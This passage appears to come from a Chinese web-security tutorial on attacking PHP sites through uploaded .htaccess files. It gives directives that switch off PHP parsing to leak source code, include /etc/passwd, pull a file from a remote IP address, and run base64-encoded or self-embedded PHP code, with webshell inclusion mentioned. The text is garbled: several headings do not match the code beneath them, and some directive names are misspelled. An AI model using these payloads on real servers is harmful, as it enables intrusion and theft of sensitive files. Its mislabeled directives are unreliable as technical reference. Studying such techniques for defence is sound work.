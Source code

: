 可以将 engine 设置为 0，在本目录和子目录中关闭 php 解析，造成源码泄露

```
php_value auto_prepend_file /etc/passwd
```

**利用方式**  

===========

文件解析, 经常出现在文件上传的黑名单没有限制 .htaceess 后缀，通过上传 .htaccess 文件，再上传图片，使图片的 php 恶意代码得以被解析执行。
----------------------------------------------------------------------------------

.htaccess 文件内容有如下两种

**1. SetHandler 指令**

```
php_value auto_append_file /etc/passwd
```

```
php_value auto_append_file http://39.101.219.210/phpinfo.txt
```

**2. AddType 指令**

```
php_flag engine 0
```

**文件包含**
--------

### **本地文件包含**

在本目录或子目录中需要有可解析的 php 文件时，可以通过 php_value 来设置 auto_prepend_file 或者 auto_append_file 配置选项包含一些敏感文件，来触发文件包含（可包含 WebShell）。

下面 .htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php 文件。

**auto_prepend_file**

```
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
或
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e

// 注意url编码
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7d9EpHLfTlibMP97iccwickJcQwgq3b9tS2bicmPBovrJyH1RrEDqAaqE0Zw/640?wx_fmt=png)

**auto_append_file**

```
php_value auto_append_file .htaccess
#<?php phpinfo();?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dtr8ZCoEm787NKGnTThZOLkYZEpMq6CwG9WSEicxCDdXiaMTz4XaRJZibg/640?wx_fmt=png)
